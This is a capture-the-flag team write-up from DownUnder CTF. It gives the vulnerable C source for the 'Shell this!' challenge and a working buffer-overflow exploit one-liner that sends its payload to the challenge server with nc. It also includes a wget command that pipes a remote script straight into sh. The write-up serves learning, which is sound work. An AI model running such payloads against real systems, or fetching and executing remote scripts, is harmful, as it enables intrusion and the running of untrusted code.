 # DownUnder CTF

### Team name: 466 Crew

### Challenges completed

|Category|Name|Points|
|--------|----|------|
|crypto|rot-i|100|
|misc|Welcome!|100|
|misc|In a pickle|200|
|pwn|Shell this!|100|
|reversing|formatting|100|

Our team completed five challenges.  Our team dispersed individually at first when we started looking into solving the challenges.  We then came together in a group discussion to resolve the remaining challenges.

---

### Individual Challenge summary

I started to look at the **pwn**`Shell this!` challenge first.  I was only able to complete one challenge individual.  Below is the source code of the challenge and a description of solving it.

```c
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

The vulnerability in this case is the use of the `gets()` function and the lack of input validation.  This can be exploited to overflow the buffer and overwrite the address of the stack pointer.

The goal of this challenge was to overwrite the stack pointer to point to the entry address of the `get_shell()` function in order to obtain a shell and access the flag.  Below are the steps taken


* Identify the address of `get_shell()`
  * Open the binary using gdb `gdb shell_this`
  * Set a break point `b main`
  * Run the program `r`
  * Jump to the get_shell function `jump get_shell` see ![example](../../../content/images/gef.jpg)
* Identify the padding between the buffer and the stack pointer.  This is a bit trial by error on command line.  Another tool like Ghidra could also be used.  Below is the command we ran to identify the magic number of **56** (i.e. when the program crashes)
  *  ```python -c 'print'("a" * 56)' | ./shellthis'```

Once we know the address we want to point to `4006ca` and the padding we need `56` we can solve the challenge by running the command below

```
python -c 'print("a" * 56 + "\xca\x06\x40")' > input; cat input - | nc chal.duc.tf 30002
```

**Notes**:

- Consider using gef when using gdb to make debugging easier

  ```wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.h | sh```

- The solution for this challenge was inspired by https://youtu.be/ZkCSQ9UlsMs

##### Problems faced

- The solution above only works using python2 and will not work in python3 due to the differences in how sequences of strings are treated.  This issue was discovered during the challenge.  You can read more about it at this Stack Overflow https://stackoverflow.com/a/32017511/6020034.

  Here's a python3 way of sending bytes

```python
offset = 1
with open("output", "wb") as f:
        payload = b"\x62"*offset + b"\x62"
        f.write(payload)
```

- Using gdb on Mac OS
  - I ran into an issue where I was unable to run gdb because it wasn't code signed.  I found these [instructions to install gdb](https://www.thomasvitale.com/how-to-setup-gdb-and-eclipse-to-debug-c-files-on-macos-sierra/) and create a code sign certificate in order to get it to work.
  - Executing gdb on MacOs by default will start a shell inside of running the program.  This was fixed by adding `set startup-with-shell off` to `~/.gdbinit`
  - The hardware and OS architecture on my MacOS are different than the linux machines in the capture the flag challenges  This made it more difficult to debug the programs due to the different registers and architecture being used.  I ended up installing Ubuntu on VM to work around this.  An after thought is to better understand the differences so I can switch between architectures and continue debugging.

  ---

### Team challenge summary

We used discord to communicate as a a team and create a channel for each challenge category. We sent flags, code snippets, and screen shots throughout our discussions.  Our team discussed the solution to the `Shell this!` in the **pwn** category and two challenges (`formatting` and `added_protection`) in the the **reversing** category. We solved the formatting challenge by running ltrace.  The output appeared to only provide part of the flag but we were able to find the missing bytes from the output and by inspecting the binary in https://cloud.binary.ninja/.  

![screenshot of ltrace](../../../content/images/ltrace.jpg)

 The remaining challenges were solved individually by the other team members and are documented in their individual write ups.
